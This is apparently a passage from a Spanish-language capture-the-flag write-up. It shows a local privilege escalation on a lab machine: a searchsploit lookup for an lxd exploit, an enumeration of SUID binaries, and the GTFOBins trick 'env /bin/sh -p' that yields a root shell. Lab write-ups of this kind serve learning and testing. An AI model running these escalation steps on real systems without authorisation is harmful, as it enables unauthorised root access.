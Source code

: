 ```bash
❯ searchsploit lxd
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                     | linux/local/46978.sh
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

No vamos a explotar el `pkexec` bueno hay varias formas de escalar privilegios para ser `root` pues puedes aprovecharte del `pkexec` tambien vemos que `env` es `SUID` y si tuvieramos la contreña de `namelessone` podrias escalar a root

```bash
namelessone@anonymous:/$ find \-perm -4000 2>/dev/null | grep -v "snap"
./bin/umount
./bin/fusermount
./bin/ping
./bin/mount
./bin/su
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/bin/passwd
./usr/bin/env
./usr/bin/gpasswd
./usr/bin/newuidmap
./usr/bin/newgrp
./usr/bin/chsh
./usr/bin/newgidmap
./usr/bin/chfn
./usr/bin/sudo
./usr/bin/traceroute6.iputils
./usr/bin/at
./usr/bin/pkexec
namelessone@anonymous:/$ 
```

Bueno pues la forma mas rapida es haciendo esto

<https://gtfobins.github.io/gtfobins/env/>

```bash
namelessone@anonymous:/$ env /bin/sh -p
# whoami
root
# 
```

